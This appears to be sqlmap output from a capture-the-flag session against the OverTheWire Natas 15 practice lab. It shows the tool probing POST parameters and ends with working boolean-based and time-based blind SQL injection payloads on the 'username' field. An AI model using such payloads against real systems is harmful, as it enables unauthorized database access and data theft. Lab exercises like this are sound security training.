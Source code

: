 ```
[11:31:11] [INFO] testing 'MySQL UNION query (80) - 1 to 20 columns'
[11:31:13] [INFO] testing 'MySQL UNION query (80) - 21 to 40 columns'
[11:31:14] [INFO] testing 'MySQL UNION query (80) - 41 to 60 columns'
[11:31:16] [INFO] testing 'MySQL UNION query (80) - 61 to 80 columns'
[11:31:17] [INFO] testing 'MySQL UNION query (80) - 81 to 100 columns'
[11:31:18] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[11:31:27] [INFO] testing if parameter 'User-Agent' is dynamic
[11:31:28] [WARNING] parameter 'User-Agent' does not appear to be dynamic
[11:31:28] [WARNING] heuristic (basic) test shows that parameter 'User-Agent' might not be injectable
[11:31:28] [INFO] testing for SQL injection on parameter 'User-Agent'
[11:31:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:31:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[11:31:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[11:31:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'


.....

[11:36:40] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:36:42] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[11:36:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[11:36:47] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[11:36:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[11:36:52] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[11:36:53] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[11:36:55] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[11:36:57] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[11:37:00] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[11:37:03] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK)'
[11:37:06] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query)'
[11:37:07] [WARNING] user aborted during detection phase
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit] e
[11:37:12] [WARNING] parameter 'Referer' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 6419 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[11:37:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[11:37:13] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[11:37:13] [WARNING] your sqlmap version is outdated

[*] ending @ 11:37:13 /2025-05-18/
```

---